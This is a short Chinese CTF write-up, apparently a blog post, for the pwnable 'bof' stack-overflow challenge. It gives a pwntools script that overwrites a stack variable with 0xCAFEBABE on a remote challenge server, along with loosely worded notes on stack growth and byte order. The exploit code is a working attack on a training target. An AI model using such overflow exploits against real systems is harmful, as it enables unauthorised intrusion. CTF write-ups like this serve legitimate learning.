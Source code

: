 ```yaml
---
title: pwnable靶场ak-WP （3）bof利用
poc: true
categories:
  - - CTF
tags: []
id: '650'
date: 2021-09-01 21:58:24
---
```


## 背景

自己琢磨了一下口算十六进制的加减法和正负数运算，在EBP分界处计算偏移还是挺有用的

## 正文

本体难度低，补一个栈笔记就行

虽然栈是向低地址增长的，但是由于宏观遍历和微观计数器变化需要统一——即当从0遍历到高位时，计数器从0开始步进，步长为1，因此gets一次性存储一个长字符串时，字符串的低位字符，存在地址的高位（看起来似乎和小端相反，但前面也说过，其实小端研究的不是这个）

EXP如下

```
from pwn import *
conn=remote("128.61.240.205",9000)
conn.sendline('AAAA'*13+ p32(0xCAFEBABE))
conn.interactive()
```

payload是

AAAA....AAAACAFEBABE

字符串低位CAFEBABE储存在栈的高位（ebp栈底之外）

![](https://raw.githubusercontent.com/Valkierja/ALLPIC/main/img/202303181053924.png)